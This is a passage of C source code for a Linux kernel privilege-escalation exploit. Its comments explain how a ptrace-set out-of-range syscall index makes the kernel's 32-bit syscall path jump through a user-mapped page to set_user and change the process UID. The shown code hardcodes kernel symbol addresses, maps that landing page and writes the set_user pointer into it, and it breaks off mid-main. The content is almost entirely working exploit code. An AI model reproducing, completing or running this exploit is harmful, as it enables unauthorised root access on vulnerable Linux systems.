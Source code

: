 
    #include <sys/ptrace.h>
    #include <sys/user.h>
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <unistd.h>
    #include <stdio.h>
    #include <sys/mman.h>
    #include <string.h>
    #include <stdlib.h>
    #include <stddef.h>

    /**
     * Replace these with the values of `ia32_sys_call_table' and
     * `set_user' from /proc/kallsyms or /boot/System.map-$(uname -r)
     */
    #define syscall_table 0xffffffff8044b8a0
    #define set_user      0xffffffff8028d785

    /*
     We don't _need_ these -- with only a little bit of cleverness, we can
     get around not knowing them, but having them will make the code
     simpler.

     set_user is defined in kernel/sys.c, and can be used to change the
     UID of the current process. We'll trick the kernel into call it on
     our behalf, and thus avoid having to write any code to run in
     kernel-mode ourselves.
    */

    #define offset        (1L << 32)
    #define landing       (syscall_table + 8*offset)
    /*
      'offset' is the 64-bit value we will load into %rax using ptrace().

      This will cause the "call" instruction we saw above to look up the
      value stored at that index off the syscall table, which is the
      address we compute in "landing".
     */


    int main() {
            if((signed long)mmap((void*)(landing&~0xFFF), 4096,
                                  PROT_READ|PROT_EXEC|PROT_WRITE,
                                  MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS,
                                    0, 0) < 0) {
                    perror("mmap");
                    exit(-1);
            }
            *(long*)landing = set_user;
            /*
              We use mmap(2) to map a page at "landing", and write a
              pointer to the set_user function there.
             */
